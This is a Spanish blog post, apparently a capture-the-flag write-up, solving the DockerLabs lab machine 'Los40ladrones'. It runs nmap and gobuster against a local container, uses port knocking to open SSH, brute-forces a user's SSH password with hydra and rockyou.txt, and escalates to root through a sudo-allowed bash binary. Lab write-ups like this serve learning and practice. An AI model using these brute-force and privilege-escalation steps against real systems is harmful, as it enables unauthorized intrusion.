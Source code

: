 ```yaml
---
layout: post
title: "Los40ladrones"
date: 2024-08-17 13:55:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Los40ladrones </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/dockerlabs/los40ladrones/host.png){:.margin}

**1\.** Escaneo los puertos abiertos de la maquina, solo tenemos el servicio apache.

`sudo nmap -p- -T5 --open --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/los40ladrones/nmap.png){:.margin}

**2\.** En la web tenemos la pagina por defecto de apache, no tenemos mas.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/los40ladrones/80.png){:.margin}

**3\.** Toca hacer un poco de fuzzing.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovey/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/los40ladrones/gobuster.png){:.margin}

**4\.** Tenemos un posible usuario y ademas nos da una secuencia de numeros.

`http://172.17.0.2/qdefense.txt`

![img](/notas/public/img/dockerlabs/los40ladrones/qdefense.png){:.margin}

**5\.** Escaneo los 10 puertos mas comunes,puede ser que tengamos algun puerto filtrado y que sea de interes.

`sudo nmap --top-ports 10 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/los40ladrones/nmaptop.png){:.margin}

**6\.** Suponiendo que la secuencia de numeros que nos da son puertos, hacemos port knocking.

`apt install knockd`

`knock 172.17.0.2 7000 8000 9000 -v`

![img](/notas/public/img/dockerlabs/los40ladrones/knock.png){:.margin}

**7\.** Volvemos a escanear los puertos de la maquina, el port knocking nos activo el puerto 22.

`sudo nmap -p- -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/los40ladrones/nmap2.png){:.margin}

**8\.** Hago fuerza bruta por ssh a la contraseña del usuario toctoc.

`hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/los40ladrones/hydra.png){:.margin}

**9\.** Nos conectamos por ssh.

`ssh toctoc@172.17.0.2`

![img](/notas/public/img/dockerlabs/los40ladrones/sshtoctoc.png){:.margin}

**10\.** Reviso los permisos sudo del usuario, tenemos dos binarios con todo los permisos y entre ellas la bash.

`sudo -l`

![img](/notas/public/img/dockerlabs/los40ladrones/sudol.png){:.margin}

**11\.** Obtenemos el superusuario.

`sudo /opt/bash`

![img](/notas/public/img/dockerlabs/los40ladrones/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>